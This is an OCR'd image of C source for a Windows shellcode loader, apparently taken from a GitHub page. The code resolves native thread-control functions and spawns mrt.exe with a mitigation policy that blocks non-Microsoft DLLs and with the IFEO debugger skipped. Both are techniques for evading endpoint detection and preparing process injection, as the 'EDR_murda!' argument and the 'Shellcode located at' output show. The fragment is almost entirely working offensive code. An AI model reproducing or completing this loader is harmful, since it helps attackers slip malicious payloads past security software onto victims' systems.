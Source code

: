 ```
	NtResumeThread ntResumeThread = (NtResumeThread)GetProcAddress(hNtdll, "NtResumeThread");
	NtSetContextThread ntSetContextThread = (NtSetContextThread)GetProcAddress(hNtdll, "NtSetContextThread");
	NtGetContextThread ntGetContextThread = (NtGetContextThread)GetProcAddress(hNtdll, "NtGetContextThread");
	NtDelayExecution ntDelayExecution = (NtDelayExecution)GetProcAddress(hNtdll, "NtDelayExecution");

	/* LOADER */

	// Path to the image file from which the process will be created
	UNICODE_STRING NtImagePath, Params, ImagePath;
	RtlInitUnicodeString(&ImagePath, (PWSTR)L"C:\\Windows\\System32\\mrt.exe");

	RtlInitUnicodeString(&NtImagePath, (PWSTR)L"\\??\\C:\\Windows\\System32\\mrt.exe");
	RtlInitUnicodeString(&Params, (PWSTR)L"\"C:\\WINDOWS\\SYSTEM32\\mrt.exe\" /i EDR_murda!");
	// Create the process parameters
	PRTL_USER_PROCESS_PARAMETERS ProcessParameters = NULL;
	RtlCreateProcessParametersEx(&ProcessParameters, &ImagePath, NULL, NULL, &Params, NULL, NULL, NULL, NULL, NULL, RTL_USER_PROCESS_PARAMETERS_NORMALIZED);

	// Initialize the PS_CREATE_INFO structure
	PS_CREATE_INFO CreateInfo = { 0 };
	CreateInfo.Size = sizeof(CreateInfo);
	CreateInfo.State = PsCreateInitialState;

	//Skip Image File Execution Options debugger
	CreateInfo.InitState.u1.InitFlags = PsSkipIFEODebugger;

	OBJECT_ATTRIBUTES objAttr = { sizeof(OBJECT_ATTRIBUTES)};
	PPS_STD_HANDLE_INFO stdHandleInfo = (PPS_STD_HANDLE_INFO)RtlAllocateHeap(RtlProcessHeap(), HEAP_ZERO_MEMORY, sizeof(PS_STD_HANDLE_INFO));
	PCLIENT_ID clientId = (PCLIENT_ID)RtlAllocateHeap(RtlProcessHeap(), HEAP_ZERO_MEMORY, sizeof(PS_ATTRIBUTE));
	PSECTION_IMAGE_INFORMATION SecImgInfo = (PSECTION_IMAGE_INFORMATION)RtlAllocateHeap(RtlProcessHeap(), HEAP_ZERO_MEMORY, sizeof(SECTION_IMAGE_INFORMATION));
	PPS_ATTRIBUTE_LIST AttributeList = (PS_ATTRIBUTE_LIST*)RtlAllocateHeap(RtlProcessHeap(), HEAP_ZERO_MEMORY, sizeof(PS_ATTRIBUTE_LIST));

	// Create necessary attributes
	AttributeList->TotalLength = sizeof(PS_ATTRIBUTE_LIST);
	AttributeList->Attributes[0].Attribute = PS_ATTRIBUTE_CLIENT_ID;
	AttributeList->Attributes[0].Size = sizeof(CLIENT_ID);
	AttributeList->Attributes[0].ValuePtr = clientId;

	AttributeList->Attributes[1].Attribute = PS_ATTRIBUTE_IMAGE_INFO;
	AttributeList->Attributes[1].Size = sizeof(SECTION_IMAGE_INFORMATION);
	AttributeList->Attributes[1].ValuePtr = SecImgInfo;

	AttributeList->Attributes[2].Attribute = PS_ATTRIBUTE_IMAGE_NAME;
	AttributeList->Attributes[2].Size = NtImagePath.Length;
	AttributeList->Attributes[2].ValuePtr = NtImagePath.Buffer;

	AttributeList->Attributes[3].Attribute = PS_ATTRIBUTE_STD_HANDLE_INFO;
	AttributeList->Attributes[3].Size = sizeof(PS_STD_HANDLE_INFO);
	AttributeList->Attributes[3].ValuePtr = stdHandleInfo;

	DWORD64 policy = PROCESS_CREATION_MITIGATION_POLICY_BLOCK_NON_MICROSOFT_BINARIES_ALWAYS_ON;

	// Add process mitigation attribute
	AttributeList->Attributes[4].Attribute = PS_ATTRIBUTE_MITIGATION_OPTIONS;
	AttributeList->Attributes[4].Size = sizeof(DWORD64);
	AttributeList->Attributes[4].ValuePtr = &policy;
```

[+]: Shellcode located at c7160